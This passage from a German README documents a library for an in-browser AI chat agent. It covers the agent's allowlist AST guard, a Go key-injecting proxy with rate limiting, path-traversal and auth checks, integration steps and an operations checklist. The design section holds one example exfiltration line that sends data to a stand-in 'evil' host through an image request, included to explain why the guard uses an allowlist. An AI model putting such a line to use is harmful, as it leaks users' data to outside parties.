  eine Allowlist gesetzt ist — sonst könnte man sie umgehen, indem man das Modell woanders versteckt.
* **Auth-Hook.** Läuft vor allem anderen. Ohne ihn ist der Proxy für jeden offen, der ihn erreicht.
* **Rate-Limit.** Fixed Window pro Client-Key, alte Buckets werden weggeräumt. `X-Forwarded-For`
  wird nur bei `TrustForwardedFor` beachtet — sonst könnte jeder Client das Limit durch einen
  gefälschten Header umgehen.
* **Body-Limit.** 413 statt einer OOM.
* **Path-Traversal.** Der Zielpfad kommt aus dem Header `X-Target-Path`. Enthält er `..`, wird
  abgelehnt — nicht stillschweigend normalisiert. Absolute URLs (`http://…`, `//host`) ebenfalls:
  der Proxy darf nur zu seinem eigenen Upstream sprechen.
* **Header-Hygiene.** Hop-by-hop-Header und die *vom Client gesendeten* `Authorization` /
  `x-api-key` werden verworfen (die SDKs bestehen auf einem Dummy-Key). `X-Title` und
  `HTTP-Referer` gehen durch — daran hängt OpenRouters Attribution.
* **SSE-Flushing.** Die Antwort wird chunkweise geschrieben **und geflusht**. Ohne das puffert
  Go die Ausgabe, und das Streaming kommt am Ende als ein Klumpen an — der Chat wirkt eingefroren.

### Auth-Stile

| Provider | Stil |
| --- | --- |
| Google | `?key=…` als Query-Parameter |
| OpenAI, OpenRouter | `Authorization: Bearer …` |
| Anthropic | `x-api-key: …` + `anthropic-version` |

Query-Parameter des Clients werden weitergereicht (Google braucht `alt=sse`).

### Standalone-Binary (für die Entwicklung)

```bash
AI_PROVIDER=openrouter AI_API_KEY=sk-or-… go run ./cmd/aichat-proxy
```

| Env | Default | |
| --- | --- | --- |
| `AI_PROVIDER` | `google` | |
| `AI_API_KEY` | — | Pflicht |
| `AI_BASE_URL` | — | eigenes Gateway |
| `AI_ALLOWED_MODELS` | leer | kommagetrennt, `*` als Wildcard |
| `AI_RATE_LIMIT` | 60 | Requests/Minute |
| `AI_PROXY_ADDR` | `:8090` | |
| `AI_PROXY_PATH` | `/aichat` | |
| `AI_CORS_ORIGIN` | leer | nur nötig, wenn Frontend auf anderer Origin läuft |

In Produktion bettest du stattdessen `aichat.NewProxy` in deinen eigenen Server ein — dann greift
die Session-Auth der App, und CORS entfällt, weil alles same-origin ist.

### CSRF

`useChatAgent` liest `<meta name="csrf-token">` und sendet den Wert als `X-CSRF-Token`; Cookies
gehen per `credentials: "include"` mit. Die **Validierung gehört in deinen `Authorize`-Hook** —
der Standalone-Proxy prüft nichts, er kennt deine Session ja nicht.

---

## Integration in eigene Anwendungen

### Wiederverwendbarkeits-Matrix

**✅ Unverändert übernehmen** — keine Domänenlogik:

| Datei | |
| --- | --- |
| `core/guard.ts` | AST-Guard. Universell. |
| `core/evaluator.ts` | Executor mit 5 Schichten. Nimmt jede API entgegen. |
| `core/runtimeTypes.ts` | `@values`-Auflösung. Funktioniert mit jedem Interface. |
| `core/roundValues.ts` | Hilfsfunktion. |
| `browser/uiState.ts`, `browser/uiActions.ts` | DOM lesen/bedienen über `data-*`. Universell. |
| `react/useChatAgent.ts`, `react/chatSession.ts` | Agent-Loop und State. Rein konfigurationsgetrieben. |
| `providers/createModel.ts` | Provider-Factory. |
| `server/*.go` | Proxy. Konfiguration über `Config`. |

**⚙️ Anpassen** — Struktur bleibt:

| Datei | Was du änderst |
| --- | --- |
| `react/ChatPanel.tsx` / `.css` | Texte, Farben, Icons, Layout — meist reichen die CSS-Variablen |
| `cmd/aichat-proxy/main.go` | Vorlage für das Einbetten in deinen eigenen Server |

**🔧 Neu schreiben** — das ist *dein* Assistent:

| Datei | Was sie tut | Vorlage |
| --- | --- | --- |
| `agent/instructions.md` | Rolle, Regeln, Verhalten | `example/src/agent/instructions.md` |
| `agent/api.ts` | TypeScript-Beschreibung deiner API + `@values` + Beispiele | `example/src/agent/api.ts` |
| `agent/setup.ts` | Wiring: `createEvaluator`, `expandRuntimeTypes`, `appContext` | `example/src/agent/setup.ts` |
| Die API-Funktionen selbst | Was der Agent darf | `example/src/board.ts` |
| `data-*`-Attribute | Was der Agent sieht und bedienen kann | `example/src/App.tsx` |

### Schritt für Schritt

#### Phase 1 — Chat, der Fragen beantwortet

1. **Proxy einbinden.** `aichat.NewProxy` in den bestehenden Mux, `Authorize` an die Session
   hängen, `AllowedModels` setzen.
2. **`instructions.md` schreiben.** Wer ist der Assistent, wie redet er, wann handelt er?
3. **`ChatPanel` einbauen** — noch ohne Tools:

```tsx
<ChatPanel agent={{
  provider: "google",
  model: "gemini-3-flash-preview",
  proxyUrl: "/aichat",
  systemPrompt: [instructions, knowledge],
  toolDescription: "",
  evaluate: async () => "Es sind noch keine Werkzeuge verfügbar.",
}} />
```

#### Phase 2 — Der Agent bedient die App

4. **`api.ts` schreiben.** Signaturen mit JSDoc, `@values` für alles, was gültige Werte hat, und
   zwei, drei Beispiel-Snippets. Die Beispiele sind erstaunlich wirksam.
5. **API-Objekt implementieren.** Bevorzugt die Funktionen, die deine UI ohnehin aufruft —
   dann laufen Validierung und Undo automatisch mit.
6. **Zusammenstecken:**

```ts
const evaluate = createEvaluator({
  api: { ...meineApi, ...createUIActions(), readUIState },
  onAfterRun: () => store.notify(),
  transformResult: (r) => roundValues(r, 2),
});

export const agentOptions = (): ChatAgentOptions => {
  const api = expandRuntimeTypes(apiSource, { statuses, assignees });
  return {
    provider: "google",
    model: "gemini-3-flash-preview",
    proxyUrl: "/aichat",
    systemPrompt: [instructions, "## API\n\n```ts\n" + api + "\n```"],
    toolDescription: "Führt JavaScript gegen die App aus.\n\n```ts\n" + api + "\n```",
    evaluate,
    appContext: () => JSON.stringify({ state: store.list(), ui: readUIState() }),
  };
};
```

7. **`data-*`-Attribute setzen** — auf alles, was der Agent sehen und bedienen darf.

#### Phase 3 — Produktionsreife

8. **Destruktives absichern.** Löschen/Bezahlen/Versenden hinter eine Rückfrage in den
   Instructions — oder ganz aus der API heraushalten.
9. **`AllowedModels` und `RateLimit`** im Proxy setzen. Ohne Allowlist wählt der Client das Modell.
10. **Vision-Modell** konfigurieren, wenn Screenshots erlaubt sein sollen.
11. **Beispieldialoge** in die Instructions — sie steuern das Verhalten stärker als jede Regel.
12. **Bundle-Größe prüfen:** Das AI-SDK wiegt einiges. Wenn der Chat nicht auf jeder Seite
    gebraucht wird, per `React.lazy` nachladen.

---

## Tests

```bash
cd server && go test -race ./...     # 11 Tests: Key-Injection, Allowlist, Rate-Limit,
                                     # Body-Limit, Traversal, Auth-Hook, SSE-Flushing
cd web    && npx vitest run          # 49 Tests: Guard, Evaluator, Runtime-Types, UI-Helfer
cd web    && npx tsc --noEmit        # Typecheck der Lib
```

Ein Test redet mit einem echten Modell und ist deshalb standardmäßig übersprungen:

```bash
# Proxy läuft auf :8090
cd web && SMOKE=1 npx vitest run src/smoke.test.ts
```

Er prüft die Kette, die keine Unit-Tests abdecken können: Transport → Proxy → Provider →
Tool-Call → Guard → Ausführung → Antwort. Kosten: Bruchteile eines Cents.

---

## Design-Entscheidungen

### Warum läuft der Agent im Browser?

1. **Er muss die App bedienen.** Die evaluate-Funktionen arbeiten mit Store, DOM und Renderer —
   das existiert nur im Browser. Serverseitige Ausführung bräuchte einen Rückkanal zum Client
   für jeden einzelnen Zugriff.
2. **Latenz.** Bis zu 20 Tool-Schritte pro Nachricht; jeder Schritt über den Server wäre ein
   zusätzlicher Roundtrip.
3. **Kein AI-Backend nötig.** Der Proxy ist zustandslos und in jeden bestehenden Server
   einbettbar. Keine Queue, keine Datenbank, kein Session-Store.

### Warum ein Pass-Through-Proxy statt eines eigenen Protokolls?

Das AI-SDK spricht bereits Googles Streaming-Format, Anthropics Cache-Header und OpenAIs
Tool-Call-Struktur. Ein eigenes Backend-Protokoll müsste all das nachbauen — und bei jeder
Provider-Änderung nachziehen. Der Proxy hat genau eine Aufgabe: den Key injizieren und die
Leitplanken durchsetzen.

### Warum Allowlist statt Blocklist im Guard?

Weil eine Blocklist prinzipiell unvollständig ist. `new Image().src = "https://evil/?" + data`
enthält keinen einzigen typischerweise verbotenen Namen. Was zählt, ist nicht, ob die gefährlichen
Namen alle gelistet sind, sondern ob unbekannte Namen **geschlossen scheitern**. Die
Sprachkonstrukte bleiben dabei frei — beschränkt sind nur freie Bezeichner.

### Warum `streamText()` und nicht `generateText()`?

Ein Turn mit mehreren Tool-Schritten dauert Sekunden. Ohne Streaming starrt der Nutzer auf einen
Spinner und weiß nicht, ob etwas passiert. Mit Streaming sieht er die Antwort entstehen und jeden
Tool-Call, sobald er läuft. Die zusätzliche Komplexität steckt vollständig in einer Funktion
(`consume`), die den Event-Stream in Chat-Nachrichten übersetzt.

### Warum eine `ChatSession` statt eines Modul-Singletons?

Ein Singleton überlebt zwar Unmounts, teilt aber alles: Zwei Chats auf einer Seite schreiben in
dieselbe Historie, und ein erschöpftes Rate-Limit sperrt den jeweils anderen mit aus. Eine
explizite Session überlebt Unmounts genauso, ist aber isoliert — und in Tests parallelisierbar.

### Warum die App-Zustands-Snapshot an der User-Nachricht?

Er ändert sich jeden Turn. Am System-Prompt würde er das Prompt-Caching bei jeder Nachricht
zerstören — und der System-Prompt (Instructions + volle API) ist der teuerste Teil des Requests.

---

## Betriebs-Checkliste

- [ ] `AllowedModels` gesetzt — sonst wählt der Client das Modell und damit die Kosten
- [ ] `Authorize` gesetzt — sonst ist der Proxy für jeden offen, der ihn erreicht
- [ ] `RateLimit` gesetzt, `ClientKey` auf die User-ID statt die IP
- [ ] `TrustForwardedFor` nur hinter einem eigenen Reverse-Proxy
- [ ] Destruktive Operationen aus der API heraus oder hinter eine Rückfrage
- [ ] CSRF-Validierung im `Authorize`-Hook
- [ ] `showToolActivity` an lassen — Nachvollziehbarkeit ist ein Feature, kein Debug-Modus

---

## Lizenz

[MIT](LICENSE) © 2026 Sebastian Baltes
